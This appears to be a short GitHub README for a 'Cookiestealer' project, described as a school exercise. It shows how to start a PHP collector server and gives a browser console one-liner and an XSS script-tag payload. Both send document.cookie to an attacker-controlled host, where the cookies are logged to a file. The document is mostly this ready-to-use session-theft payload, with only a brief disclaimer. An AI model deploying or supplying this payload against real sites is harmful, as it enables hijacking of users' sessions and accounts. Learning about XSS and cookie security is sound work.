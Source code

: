 # Cookiestealer

Just a school project for learning. Don't use this for evil.

If `HttpOnly` is `false`, and XSS is enabled, it's possible to steal the cookies the following way:

## Start the server

```
$ php -S yourIP:yourPort
```

## Test locally

If running locally, you can steal the cookies by running

```
document.location= "http://127.0.0.1:3000/cookiestealer.php?c=" + document.cookie
```

in the console in developer tools.

## Embed in XSS, execute remotely

Put the following in a field vulnerable to XSS:

```
<script language="javascript"> image = new Image(); image.src="http://yourDomainOrIP:yourPort/cookiestealer.php?c="+document.cookie </script>
```

The cookies will then be saved to `cookielog.txt`.

